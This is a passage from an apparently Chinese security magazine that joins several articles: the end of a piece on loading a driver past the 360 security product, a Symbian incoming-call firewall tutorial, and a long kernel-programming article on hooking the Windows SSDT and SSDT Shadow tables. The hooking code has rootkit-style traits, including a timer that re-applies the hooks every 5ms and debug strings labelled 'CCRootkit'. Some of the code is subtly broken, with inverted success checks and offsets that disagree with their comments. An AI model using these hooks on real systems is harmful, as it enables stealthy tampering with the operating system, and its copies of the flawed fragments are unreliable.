以上结束。360 的代码在 WDK7600 下编译，用户态代码在 VC6 下编译，在 Windows XP SP2 下测试成功，对应的 360 版本是 6.1，后来到 360 官网上看时有了 6.2 beta 版。测试了一下依旧可行，只是如果把驱动放在系统盘根目录的话会被认为是危险行为。这样做只是为了测试方便，完全可以放在其他目录。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Symbian 系统  
关键词：编程、手机、来电防火墙

##### 浅析手机来电防火墙的实现原理



文/图 爱无言

在以前的黑防杂志中，我们曾经与大家一起谈论过手机病毒程序往往会利用自动拨打电话功能来实现对手机用户的语音监听。同时，手机病毒还可以实现将用户个人信息发送给病毒制造者，然后病毒制造者就可以利用这些资料信息，打电话给该用户进行欺骗。

如果我们要很好地防范手机病毒，尤其是新的手机病毒，就必须采用一定的方式来防止病毒自动拨打电话或者接收莫名电话，尤其是匿名电话，因为病毒制造者为了隐藏自己，往往使用匿名电话来欺骗手机用户。

这种防止手机自动拨打电话或者接收电话的功能非常类似我们计算机系统上的网络防火墙功能。防火墙的功能就是阻止或者限制系统外部数据进入内部，同时也可以防止内部没有规定的程序访问系统外部。

既然我们需要在手机上实现的是对语音通信的限制，尤其是对于手机来电进行防护，那么实现这种功能的软件我们就称之为“来电防火墙”。

要想在手机系统上实现对电话语音的监听，需要首先明确手机系统是不是提供了相应的系统方法或者系统函数。普通的手机系统是不会向外提供这些比较关键的方法的，出于对手机使用者群体的考虑，手机系统只会自带或者干脆不实现电话语音监听功能，因为这种功能最大的用处就是可以进行来电地区查询，也就是说可以实现手机接收到来电时，同时告诉手机使用者该来电来自于什么地方。这种功能在一般低端的手机上都没有实现。

对于中高端手机来讲，其手机系统就会额外提供这种语音监听功能。在手机系统开发商向外提供的应用程序开发环境中（如 SDK）就会有相关的方法或者函数说明。这里以 Symbian 系统下的语音监听功能开发为例，讲解一下手机来电防火墙的一般实现原理。

对于来电监听这样的功能来说，它一定是在手机系统后台工作的，因为它需要随时监听系统是不是收到了来电语音信号，同时，它的工作不能干扰手机系统正常的工作使用。对于 Symbian 系统来讲，这就需要将来电监听程序编写成为一个叫做“活动对象”的目标程序。

对于 Symbian 系统来讲，系统对需要处理的事件都有一个优先级的概念在里面，例如一个外来语音电话，系统中的关键程序就会马上处理这个来电，然后再交由系统以外的程序进行处理。活动对象就是用于处理无优先级事件的。

作为后台运行的服务程序，创建的活动对象首先必须继承于 CActive 类。CActive 类主要包含以下一些变量和方法：

- **iStatus**：系统的活动对象管理器通过检查 `iStatus` 变量的值，来判断某相应请求是否完成。
- **iActive**：主要用来表明自己需要响应哪些事件。当系统接收到某种事件后，活动对象管理器会根据所有活动对象 `iActive` 值的不同来判断需不需要将该事件交由它进行处理。
- **SetActive()**：用来设定 `iActive` 值，将其设为 `true`，表明此活动对象已经申请了一个请求，准备处理事件。
- **Cancel()**：检查 `iActive` 的值，如果其值为 `false`，表明没有请求，则什么也不做。否则调用 `DoCancel()` 来结束请求，表明该活动对象没有正在等待的请求。
- **DoCancel()**：由 `Cancel()` 调用。
- **RunL()**：这是一个关键函数，将由活动对象管理器进行调用。

为此，我们的来电监听程序就需要先继承这个 `CActive` 类，基本代码如下：

```cpp
CIncomingCall::CIncomingCall():CActive(EPriorityStandard),
// 这里表明我们的来电监听类 CIncomingCall 继承于 CActive
 iRemParty(iRemInfoUse),
 iCallInfo(iCallInfoUse),
 iCallSelection(iCallSelectionUse),
 iCallStatusPkg(iCallStatus)
{ ... }
```

接下来，作为主体的 `CIncomingCall` 类需要实现自己的构建函数，其代码为：

```cpp
void CIncomingCall::IncomingCall()
{
 _LIT(KNotifyExamplePanic, "CNotifyExample");
 ASSERT_ALWAYS(!IsActive(), User::Panic(KNotifyExamplePanic, 1));
 iTelephony->NotifyChange(iStatus, CTelephony::EVoiceLineStatusChange, iCallStatusPkg);
 SetActive(); // 激活活动对象，也可说是开始接收关于语音通信的事件
}
```

这里最关键的一句代码是：`iTelephony->NotifyChange(iStatus, CTelephony::EVoiceLineStatusChange, iCallStatusPkg);`，其中 `iTelephony` 是一个 `CTelephony` 类的实例。

`CTelephony` 类的作用是提供一个简单的使用方法，编程人员可以通过这个方法在系统核心函数与用户层中间建立关于语音电话的过滤层。这个类可以支持对来电进行设置，或者控制语音拨号、语音网络信息，以及一些其他基本的语音设置，它是一个非常有用的电话类。

在 `CTelephony` 类中，`NotifyChange` 是一个回调函数，其作用主要是监视语音电话的状态，也即手机是不是处于电话接通状态或者是不是有新的来电等等。我们的来电防火墙就是一个对语音电话进行监听的程序，为此，我们必须使用 `CTelephony` 类的 `NotifyChange` 函数来获得手机语音电话的变化信息，同时需要将信息事件传递给 `CIncomingCall` 进行处理。

为了处理 `NotifyChange` 提供的电话状态信息，`CIncomingCall` 需要实现 `RunL()` 函数，其具体代码为：

```cpp
void CIncomingCall::RunL()
{
 if(iStatus==KErrNone)
 {
  CTelephony::TCallStatus status = iCallStatus.iStatus;
  switch(status)
  {
   case CTelephony::EStatusRinging:
    WriteToFile(_L8("EStatusRinging\n"));
    iCallSelectionUse.iLine = CTelephony::EVoiceLine;
    iCallSelectionUse.iSelect = CTelephony::EInProgressCall;
    iTelephony->GetCallInfo(iCallSelection, iCallInfo, iRemParty);
    TBuf8<100> CallerNumber;
    CallerNumber.Copy(iRemInfoUse.iRemoteNumber.iTelNumber);
    WriteToFile(CallerNumber);
    break;

   case CTelephony::EStatusConnected:
    WriteToFile(_L8("EStatusConnected\n"));
    break;

   case CTelephony::EStatusAnswering:
    WriteToFile(_L8("EStatusAnswering\n"));
    break;

   case CTelephony::EStatusDialling:
    WriteToFile(_L8("EStatusDialling\n"));
    break;

   case CTelephony::EStatusDisconnecting:
    WriteToFile(_L8("EStatusDisconnecting\n"));
    break;

   case CTelephony::EStatusConnecting:
    WriteToFile(_L8("EStatusConnecting\n"));
    break;

   case CTelephony::EStatusUnknown:
    WriteToFile(_L8("EStatusUnknown\n"));
    break;

   case CTelephony::EStatusIdle:
   {
    // 手机处于待机状态。即此刻手机没有任何语音通话
    WriteToFile(_L8("EStatusIdle\n"));
   }
   break;

   case CTelephony::EStatusReconnectPending:
   {
    // 网络信号不好，此刻手机无法正常连接
    WriteToFile(_L8("EStatusReconnectPending\n"));
   }
   break;

   case CTelephony::EStatusHold:
   {
    // 通话被挂起
    WriteToFile(_L8("EStatusHold\n"));
   }
   break;

   case CTelephony::EStatusTransferring:
   {
    // 通话进行中
    WriteToFile(_L8("EStatusTransferring\n"));
   }
   break;

   case CTelephony::EStatusTransferAlerting:
   {
    // 手机处于回铃音状态
    WriteToFile(_L8("EStatusTransferAlerting\n"));
   }
   break;
  }

  iTelephony->NotifyChange(iStatus,
      CTelephony::EVoiceLineStatusChange,
      iCallStatusPkg);
  // 本次手机通话状态处理完毕后，继续激活，以便接收下一次通话事件
  SetActive();
 }
 else
 {
  CEikonEnv::Static()->InfoWinL(_L("Error in"), _L("status"));
  // 出现错误状态则挂起程序
 }
}
```

```cpp
// 连接文件系统，Symbian 系统要求所有操作文件的动作必须首先连接文件系统
RFile iFile; // 创建一个文件操作对象，我们将使用这个文件对象来读写文本文件
TInt err = iFile.Open(iFs, KFileSpec, EFileShareExclusive|EFileStreamText|EFileWrite);
// 打开创建的文本文件
if (err != KErrNone)
{
    // 如果出现错误，则证明文件还没有创建
    if (iFile.Create(iFs, KFileSpec, EFileShareExclusive|EFileStreamText|EFileWrite) != KErrNone)
    {
        // 创建文件
        err = iFile.Open(iFs, KFileSpec, EFileShareExclusive|EFileStreamText|EFileWrite);
        // 再次打开创建好的文件
    }
}
err = iFile.Seek(ESeekEnd, iPos);
// 依据上一次的文件末尾，开始新的记录添加
if (err != KErrNone)
{
    TBuf<10> errBuf;
    errBuf.AppendNum(err);
    CEikonEnv::InfoWinL(_L("Seek Unsuccessful"), errBuf);
    // 可能出现了文件错误
}
err = iFile.Write(aContent8);
// 如果没有错误，就直接将此刻的手机状态记录在文件中
iFile.Flush(); // 刷新
if (err != KErrNone)
{
    TBuf<10> errBuf;
    errBuf.AppendNum(err);
    CEikonEnv::InfoWinL(_L("Write Unsuccessful"), errBuf);
    // 在文件记录中出现了错误
}
iFile.Close(); // 关闭文件对象，以便释放系统资源
iFs.Close();   // 关闭文件系统连接，以便释放系统资源
```

通过对上面代码的解读，我们明白了，在 Symbian 系统下，可以在后台设置一个活动对象程序，主要工作就是接收由系统传递给它的关于语音通信的所有事件，然后再按照这些事件的不同意义进行处理，这样就可以完成对于手机语音通信的状态进行监视了。

在上面的程序中，我们没有过多地对语音事件进行处理，而是将其所有状态写进了一个文本文件中，其具体代码也列在这里，以便读者进行参考。

```cpp
void CRetrieveNumber::WriteToFile(TDesC8& aContent8)
{
    _LIT(KFileSpec, "c:\\Nokia\\Logs.Telephony.txt");
    // 被创建的用来记录手机语音状态的文本文件名称
    TInt iPos = 0;
    RFs iFs;
    User::LeaveIfError(iFs.Connect());
    ...
}
```

现在，Symbian 系统下的来电防火墙的基本核心我们已经实现。上面的演示代码中只进行了一个日志文件记录，如果要对来电号码进行筛选屏蔽，就需要我们在处理 `CTelephony::EStatusRinging` 事件时，对获取到的来电号码进行数据匹配，检查该号码与我们在防火墙中设定需要屏蔽的号码是否一致，如果一样，则可以直接切断此次来电；如果不一样，则可以放行。

其实，手机来电防火墙只是保护手机通信安全的一种方式，手机病毒程序还可以通过短消息来实现对用户手机的控制，如利用短消息扣去用户手机话费或者向外发送用户手机上的私人信息。

为此，我们将在下一期的杂志中与大家一起学习一下短信防火墙的实现原理，如有任何问题欢迎大家到黑防论坛上来一起讨论。

前置知识：VC  
关键词：编程、虚拟内存机制、服务表、DPC 软中断


##### SSDT 及 SSDT Shadow 完全解构（二）

文/图 [党壮] && [武云龙]

在上一篇文章中，我把 SSDT Hook 直接略过了，不过这种方法由于 DPC 中断级别太高，而且 DPC 资源没有提供完整的工程文件，导致部分读者询问我 SSDT Hook 详细细节，在此对带给读者的不便致以歉意，以后我会尽力把完整工程文件公布出来。下面我们继续上篇文章未完的内容进行说明。

###### SSDT Hook 通用简易模块

SSDT Hook 可以说已经泛滥成河，但对于初入内核编程领域的新手来说，拿它作为入门第一课是必不可少的。服务表的 Hook 用一个成语来总结是再恰当不过了：偷梁换柱。服务表根据服务号来索引函数地址，我们就把服务表记录的函数地址替换成自己的过滤函数地址，待用完后再把被替换的地址写回去，这就是服务表 Hook，也可以推广到 EAT Hook（导出表 Hook）。

SSDT 在 Windows XP 系统中一共记录了 284 个函数地址，这个表是系统导出表，也就意味着我们可以直接使用 KeServiceDescriptorTable 这个变量。SSDT Hook 需要的变量有两个。

- 1. 函数服务号：可以解析 ntdll.dll 导出表、根据操作系统硬编码获取。
- 2. KeServiceDescriptorTable 表在内存的地址：由于是导出表，直接使用变量就能代表地址。

我们这里所说的通用模块指的是模块具有通用性、扩展性、稳定性，通用性意味着可以适用不同的 Windows 平台，扩展性意味着可以很方便地添加 Hook 函数。

我们采用了三种技术。一是利用映射 MDL 方式避开 SSDT 表的只读保护，而不是暴力修改 CR0 寄存器的 WP 标志位，经过多次试验，证明这种方式稳定性高。二是利用 Interlocked Exchange 函数来修改函数地址，而不是暴力地直接修改。三是增加保护模块，每隔 5ms 执行 DPC 例程，检查 SSDT 表函数地址进行 Hook 保护。

```c
// 利用 MDL 同时利用宏进行地址替换
// 初始化系统服务号
VOID InitSystemCallIndex()
{
    ZwCreateProcessExIndex = GetFunctionId("ZwCreateProcessEx");
    KdPrint(("[InitSystemCallIndex]ZwCreateProcessExIndex:0x%x\n", ZwCreateProcessExIndex));

    ZwLoadDriverIndex = GetFunctionId("ZwLoadDriver");
    KdPrint(("[InitSystemCallIndex]ZwLoadDriverIndex:0x%x\n", ZwLoadDriverIndex));

    ZwSetSystemInformationIndex = GetFunctionId("ZwSetSystemInformation");
    KdPrint(("[InitSystemCallIndex]ZwSetSystemInformationIndex:0x%x\n", ZwSetSystemInformationIndex));
}

// 硬编码方法初始化服务号
VOID InitSystemCallIndex1()
{
    ULONG majorVersion;
    ULONG minorVersion;
    PsGetVersion(&majorVersion, &minorVersion, NULL, NULL);

    if (majorVersion == 5 && minorVersion == 1)
    {
        // XP
        ZwCreateProcessExIndex = 0x30;
        ZwLoadDriverIndex = 0x61;
        ZwSetSystemInformationIndex = 0xF0;
    }
    // 下边添加其他 Windows 平台
}

// 保护已经挂钩的函数
VOID ProtectHookOfSysCall(
    IN PKDPC Dpc,
    IN PVOID DeferredContext,
    IN PVOID SystemArgument1,
    ...
)
``````c
IN PVOID SystemArgument2)
{
    if (*(KeServiceDescriptorTable->ServiceTableBase + ZwCreateProcessExIndex) != (ULONG)MyZwCreateProcessEx)
    {
        HOOK_SYSCALL(ZwCreateProcessExIndex, MyZwCreateProcessEx, OrigZwCreateProcessEx);
        HOOK_SYSCALL(ZwLoadDriverIndex, MyZwLoadDriver, OrigZwLoadDriver);
        HOOK_SYSCALL(ZwSetSystemInformationIndex, MyZwSetSystemInformation, OrigZwSetSystemInformation);
        KdPrint(("[HookSSDT]Hook Success\n"));
    }
    KdPrint(("yes\n"));
}
```

```c
UNHOOK_SYSCALL(ZwLoadDriverIndex,
    MyZwLoadDriver, OrigZwLoadDriver);
UNHOOK_SYSCALL(ZwSetSystemInformationIndex,
    MyZwSetSystemInformation, OrigZwSetSystemInformation);
KdPrint(("[HookSSDT]UnHook Success\n"));
ExFreePool(gTimer);
ExFreePool(gDPC);
// Unlock and Free MDL
if (g_pMdlSystemCall)
{
    MmUnmapLockedPages(MappedSystemCallTable, g_pMdlSystemCall);
    IoFreeMdl(g_pMdlSystemCall);
}
}
```

###### Hook 对外接口

```c
VOID HookSSDT()
{
    LARGE_INTEGER timeout;
    // 初始化服务号
    InitSystemCallIndex();
    // 映射 MDL
    g_pMdlSystemCall = MmCreateMdl(NULL,
        KeServiceDescriptorTable->ServiceTableBase,
        KeServiceDescriptorTable->NumberOfServices * 4);
    ...
    // 调用 Hook 宏
    HOOK_SYSCALL(ZwCreateProcessExIndex, MyZwCreateProcessEx, OrigZwCreateProcessEx);
    HOOK_SYSCALL(ZwLoadDriverIndex, MyZwLoadDriver, OrigZwLoadDriver);
    HOOK_SYSCALL(ZwSetSystemInformationIndex, MyZwSetSystemInformation, OrigZwSetSystemInformation);
    KdPrint(("[HookSSDT]Hook Success\n"));
    ...
    if (KeSetTimerEx(gTimer, timeout, 5, gDPC) == TRUE)
    {
        KdPrint(("Timer was already queued\n"));
    }
}

VOID UnHookSSDT()
{
    KeCancelTimer(gTimer);
    KeFlushQueuedDpcs();
    UNHOOK_SYSCALL(ZwCreateProcessExIndex, MyZwCreateProcessEx, OrigZwCreateProcessEx);
    ...
}
```

这么做后，安全性就得到了保证，同时做到了简单的扩展性。如果想扩展函数，只需要在 InitSystemCall()、HookSSDT()、UnHookSSDT() 和 ProtectHookOfSysCall() 四个函数里面各自添加相应的一句代码就 OK 了。限于篇幅就不再多加介绍了，读者可以自行实验，详细代码请参考随文提供的 HookSSDT.h 和 HookSSDT.c 文件。

##### SSDT Shadow Hook 通用简易模式

看到这有的读者可能就会想，服务表既然都是根据服务号索引，那么 KeServiceDescriptorTable 和 KeServiceDescriptorTableShadow 表就是一样的，就没必要分开讲，直接套用 SSDT Hook 模块不就行了，不就是改一下服务号而已嘛。读者这么想也没什么不对，但是具体做的时候，就会发现虽然服务表都是一样的，但却不能照搬过来。为什么呢？

KeServiceDescriptorTableShadow 表不是导出表，我们需要自己定位地址。KeServiceDescriptorTableShadow 表不是常驻虚拟内存的，会被换出内存到磁盘文件，如果被换出，那么表地址就无效，访问时就会导致蓝屏。Windows XP 系统 KeServiceDescriptorTableShadow 表记录的 667 个函数的服务号无法通过解析 PE 得到，只能使用硬编码。

我们先看 KeServiceDescriptorTableShadow 地址的定位，在上一篇文章已经说过有四种常用方法。

- 1) KeServiceDescriptorTable-0x40+0x10（在 Windows XP 下）

```text
kd> dd KeServiceDescriptorTableShadow
805634e0 804e58b0 00000000 0000011c 805120cc
805634f0 b99ac00 00000000 0000029b bf99b910
...
KeServiceDescriptorTable
80563530 00000000 00000000 00000000 00000000
...
// 方式1，在 Windows XP 下导出
// KeServiceDescriptorTable-0x40
```

```c
ULONG GetSSDTShadowAddress1()
{
    ULONG address;
    ULONG ssdt;
    ssdt = (ULONG)KeServiceDescriptorTable;
    address = ssdt - 0x30;
    KdPrint(("[GetSSDTShadowAddress] ssdt:0x%x\n", ssdt));
    KdPrint(("[GetSSDTShadowAddress] address:0x%x\n", address));
    return address;
}
```

```c
status = PsLookupThreadByThreadId((HANDLE)i, &thread);
if (NT_SUCCESS(status))
{
    if (*(PULONG)(thread + 0x0e0) != (ULONG)KeServiceDescriptorTable)
    {
        address = *(PULONG)(thread + 0x0e0);
        break;
    }
}
...
return address;
}
```

- 2) 搜索导出函数 **KeAddSystemServiceTable** 的地址空间。

```c
nt!KeAddSystemServiceTable+0x1a:
805b4013 8d88e0345680 lea ecx,[nt!KeServiceDescriptorTableShadow ...]
805b4019 833900 cmp dword ptr [ecx],0
805b401c 7534 jne nt!KeAddSystemServiceTable+0x6b ...

// 在 KeAddSystemServiceTable 函数地址空间中，根据特征码可定位
// KeServiceDescriptorTableShadow 地址

// 方式2：搜索 KeAddSystemServiceTable
ULONG GetSSDTShadowAddress()
{
    ULONG address;
    PUCHAR addr;
    PUCHAR p;
    addr = (PUCHAR)KeAddSystemServiceTable;
    for (p = addr; p < addr + PAGE_SIZE; p++)
    {
        if (*(PUSHORT)p == 0x888D && *(PUSHORT)(p + 6) == 0x8339)
        {
            address = *(PULONG)((ULONG)p + 2);
            break;
        }
    }
    address = address + 0x10;
    KdPrint(("[GetSSDTShadowAddress] address:0x%x\n", address));
    return address;
}
```

- 3) 线程 KTHREAD 结构偏移 0x0e0 的 ServiceTable，PVOID 指针根据线程类型代表不同的表地址。

```text
kd> dt _kthread
ntdll!_KTHREAD
...
+0x0e0 ServiceTable : Ptr32 Void
```

非 GUI 线程是 KeServiceDescriptorTable 表地址，GUI 线程是 KeServiceDescriptorTableShadow 表地址。

```c
// 方式3：遍历系统线程 TableCode 指向
ULONG GetSSDTShadowAddress3()
{
    ULONG i;
    NTSTATUS status;
    ULONG thread;
    ULONG address = 0;
    for (i = 8; i < 32768; i = i + 4)
    {
        ...
    }
}
```

- 4) 方法四就是 MJ 所说的暴力搜索有效地址，这个方法并不是很好。

KeServiceDescriptorTableShadow 表不常驻内存，在非 GUI 进程空间中可能被换出到磁盘文件，直接访问该表地址会出问题。DriverEntry 运行在 system 进程空间，因此不能直接在 DriverEntry 中 Hook；要 Hook 需要 Attach 到 GUI 进程空间。

一种方法是利用 GUI 程序加载驱动，在 DispatchIoctl 派遣例程中进行 Hook；另一种方法是 Attach 到 csrss.exe 进程（Windows 子系统 GUI 进程）后再进行 Hook。

```c
VOID KeStackAttachProcess(
    IN PEPROCESS Process,
    OUT PRKAPC_STATE ApcState
);
```

要 Attach 到 csrss.exe，需要先获取进程的 PEPROCESS 指针。常见做法是通过 ZwQuerySystemInformation 遍历系统句柄，定位 csrss.exe 的进程 PID，再通过 PsLookupProcessByProcessId 获取对应的 PEPROCESS。

```c
PVOID GetInfoTable(ULONG TableType)
{
    ULONG mSize = 0x4000;
    PVOID mPtr = NULL;
    NTSTATUS ntStatus;
    do
    {
        mPtr = ExAllocatePoolWithTag(PagedPool, mSize, 'kdD');
        if (mPtr != NULL)
            ntStatus = ZwQuerySystemInformation(TableType, mPtr, mSize, NULL);
        else
            return NULL;
    } while (ntStatus == STATUS_INFO_LENGTH_MISMATCH);
    ...
}
```

```c
ExFreePoolWithTag(mPtr, 'kdD');
mSize = mSize * 2;
...
// 获取 csrss.exe 进程
ULONG GetCsrPid()
{
    NTSTATUS ntStatus;
    HANDLE Process, hObject;
    NTSTATUS St;
    ULONG CsrId = 0;
    OBJECT_ATTRIBUTES obj;
    CLIENT_ID cid;
    POBJECT_NAME_INFORMATION ObjName;
    UNICODE_STRING ApiPortName;
    PSYSTEM_HANDLE_INFORMATION_EX Handles;
    int i;

    RtlInitUnicodeString(&ApiPortName, L"\\Windows\\ApiPort");
    Handles = GetInfoTable(SystemHandleInformation);
    if (Handles == NULL)
        return 0;

    ObjName = ExAllocatePool(PagedPool, 0x2000);
    DbgPrint("CCRootkit: Number of handles %d", Handles->NumberOfHandles);

    for (i = 0; i <= Handles->NumberOfHandles; i++)
    {
        // 打开的对象的类型是否为 21 (Port object)
        if (Handles->Information[i].ObjectTypeNumber == 21)
        {
            InitializeObjectAttributes(&obj, NULL, OBJ_KERNEL_HANDLE, NULL, NULL);
            cid.UniqueProcess = (HANDLE)Handles->Information[i].ProcessId;
            cid.UniqueThread = 0;
            ntStatus = ZwOpenProcess(&Process, PROCESS_DUP_HANDLE, &obj, &cid);
            if (NT_SUCCESS(ntStatus))
            {
                ntStatus = ZwDuplicateObject(
                    Process,
                    (HANDLE)Handles->Information[i].Handle,
                    NtCurrentProcess(),
                    &hObject,
                    0,
                    0,
                    DUPLICATE_SAME_ACCESS);
                if (NT_SUCCESS(ntStatus))
                {
                    ntStatus = ZwQueryObject(
                        hObject,
                        ObjectNameInformation,
                        ObjName,
                        0x2000,
                        NULL);
                    ...
                }
            }
        }
    }
}
```

```c
...
if (NT_SUCCESS(ntStatus))
{
    if (ObjName->Name.Buffer != NULL)
    {
        if (wcsncmp(ApiPortName.Buffer, ObjName->Name.Buffer, 20) == 0)
        {
            DbgPrint("CCRootkit: Csrss PID:%d", Handles->Information[i].ProcessId);
            DbgPrint("CCRootkit: Csrss Port - %ws", ObjName->Name.Buffer);
            CsrId = Handles->Information[i].ProcessId;
            ZwClose(Process);
            ZwClose(hObject);
            ExFreePool(Handles);
            ExFreePool(ObjName);
            return CsrId;
        }
    }
    else
        DbgPrint("CCRootkit: Error in Query Object");
}
else
    DbgPrint("CCRootkit: Error on duplicating object");
...
return 0;
```

个人觉得这个方法比较烦琐，我是直接利用 **ZwQuerySystemInformation** 函数遍历系统所有进程，然后匹配 **csrss.exe** 名字得到 **PEPROCESS**。但这里可能存在问题，就是有人伪造 csrss.exe 进程名；不过 ZwQuerySystemInformation 是根据 PID 大小按顺序处理的，因此即使伪造，我们还是能得到正确的 csrss.exe 的 PEPROCESS。实现代码如下：

```c
// 通过 ZwQuerySystemInformation 获得进程 PEPROCESS
ULONG GetCsrssProcess(char *ProcessName)
{
    NTSTATUS status;
    ULONG BufferSize = 0x8000; // 初始化缓冲区 32KB
    PVOID pBuffer;             // 分配内存后，返回指针
    PEPROCESS EProcess;
    PSYSTEM_PROCESS_INFORMATION pInfo;

    // 动态分配缓冲区大小
    do
    {
        pBuffer = ExAllocatePool(NonPagedPool, BufferSize);
        if (pBuffer == NULL) // 分配内存失败
            return 0;

        status = ZwQuerySystemInformation(
            SystemProcessesAndThreadsInformation,
            pBuffer,
            BufferSize,
            NULL);

        if (status == STATUS_INFO_LENGTH_MISMATCH)
        {
            ExFreePool(pBuffer);
            BufferSize += ...; // 增加 32KB 缓冲区
        }
    } while (...);
    ...
}
```

```c
else if (NT_SUCCESS(status))
{
    ExFreePool(pBuffer);
    return 0;
}
while (status == STATUS_INFO_LENGTH_MISMATCH)
{
    pInfo = (PSYSTEM_PROCESS_INFORMATION)pBuffer;
    pInfo = (PSYSTEM_PROCESS_INFORMATION)((PUCHAR)pInfo + pInfo->NextEntryDelta);
    for (;;)
    {
        PsLookupProcessByProcessId(pInfo->ProcessId, &eProcess);
        // 偏移 0x174
        if (strcmp((PCHAR)((ULONG)eProcess - 0x174), ProcessName) == 0)
        {
            KdPrint(("GetCsrssProcess|PID:%d\n", pInfo->ProcessId));
            ExFreePool(pBuffer);
            return (ULONG)eProcess;
        }
        if (pInfo->NextEntryDelta == 0)
        {
            ExFreePool(pBuffer);
            return 0;
        }
        pInfo = (PSYSTEM_PROCESS_INFORMATION)((PUCHAR)pInfo + pInfo->NextEntryDelta);
    }
}
```

```c
/*
 * 1、ZwQuerySystemInformation
 * 2、遍历 DriverSection 链表
 */
ULONG GetWin32Base1()
{
    NTSTATUS status;
    ULONG i;
    ULONG size;
    ULONG address;
    PSYSMODULELIST List;

    ZwQuerySystemInformation(SystemModuleInformation, &size, 0, &size);
    List = (PSYSMODULELIST)ExAllocatePool(NonPagedPool, size);
    if (List == NULL)
    {
        KdPrint(("[FindModuleByAddress] malloc memory failed\n"));
        ExFreePool(List);
        return 0;
    }

    status = ZwQuerySystemInformation(SystemModuleInformation, List, size, 0);
    if (NT_SUCCESS(status))
    {
        KdPrint(("[FindModuleByAddress] query failed\n"));
        KdPrint(("[FindModuleByAddress] status:0x%x\n", status));
        ExFreePool(List);
        return 0;
    }

    for (i = 0; i < List->ulCount; i++)
    {
        if (strcmp(List->smi[i].ImageName, "\\SystemRoot\\System32\\win32k.sys") == 0)
        {
            address = (ULONG)List->smi[i].Base;
            KdPrint(("[GetWin32Base1] win32k.sys address:0x%x\n", address));
        }
    }
    return address;
}

/*
 * DRIVER_OBJECT->DRIVER_SECTION
 * LDR_DATA_TABLE_ENTRY 包含系统加载模块链表及基址
 */
ULONG GetWin32Base2(PDRIVER_OBJECT driver)
{
    PLIST_ENTRY pList = NULL;
    PLDR_DATA_TABLE_ENTRY pLdr = NULL;
    ULONG BaseAddress = 0;
    pList = ((PLIST_ENTRY)driver->DriverSection)->Flink;
    do
    {
        pLdr = CONTAINING_RECORD(pList, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);
        if ((pLdr->EntryPoint != NULL) && (pLdr->FullDllName.Buffer != NULL))
        {
            ...
        }
    } while (...);
}
```

到此，SSDT Shadow 所要解决的问题就搞定了，余下的部分就完全可以照搬 SSDT 的方法，仍然利用 MDL 映射和宏来做得更加强健和安全，这里就不再详述，具体参考 HookSSDTShadow.h 和 HookSSDTShadow.c 文件。

##### SSDT Shadow Hook 的检测与恢复

SSDT Shadow Hook 的检测与恢复比 SSDT 简单多了，除了注意 KeServiceDescriptorTable Shadow 不是常驻内存外，其他就没什么了。

检测与恢复需要获取的内容有：KeServiceDescriptorTableShadow 地址；服务号；直接把函数数量转换成服务号；函数当前地址；函数原始地址；解析 win32k.sys 文件读取原始地址即可。注意 win32k.sys 不需要重定位；模块名可由传入当前地址查找得到。与 SSDT 一样，函数名可硬编码或者解析符号文件，解析符号文件需要联网而且符号文件很大，因此我选择硬编码。

当前地址的获取直接利用以下代码即可。

```c
base = KeServiceDescriptorTableShadow->ServiceTableBase;
// 函数地址
address = *(base + index);
```

重点要说的是获得原始函数地址。解析 PE，定位到 KeServiceDescriptorTableShadow 在 win32k.sys 的偏移地址即可，直接利用 KeServiceDescriptorTableShadow 的地址减去 win32k.sys 的基址即得到文件偏移，核心代码如下：

```c
/* 获取 win32k.sys 基址 */
if (!wcsicmp(pLdr->FullDllName.Buffer, L"\\SystemRoot\\System32\\win32k.sys")) {
    BaseAddress = (ULONG)pLdr->DllBase;
    KdPrint(("[GetWin32Base2] win32k.sys address:0x%x\n", BaseAddress));
    break;
}
...
/* 根据传入的服务号得到 Shadow 函数原始地址 */
ULONG FindShadowOriAddress(ULONG index)
{
    // 内核文件 win32k.sys 基地址
    // 得到 SSDT Shadow 表的地址
    // 得到文件偏移
    NTSTATUS status;
    ULONG size;
    ULONG BaseAddress;
    ULONG ShadowBase;
    ULONG ShadowAddress;
    ULONG SsdtRva;
    ULONG FileOffset = 0;
    UNICODE_STRING modulename;
    OBJECT_ATTRIBUTES object_attributes;
    IO_STATUS_BLOCK io_status = {0};
    HANDLE hFile;
    ULONG location;
    LARGE_INTEGER offset;
    ULONG address;

    BaseAddress = GetWin32Base1();
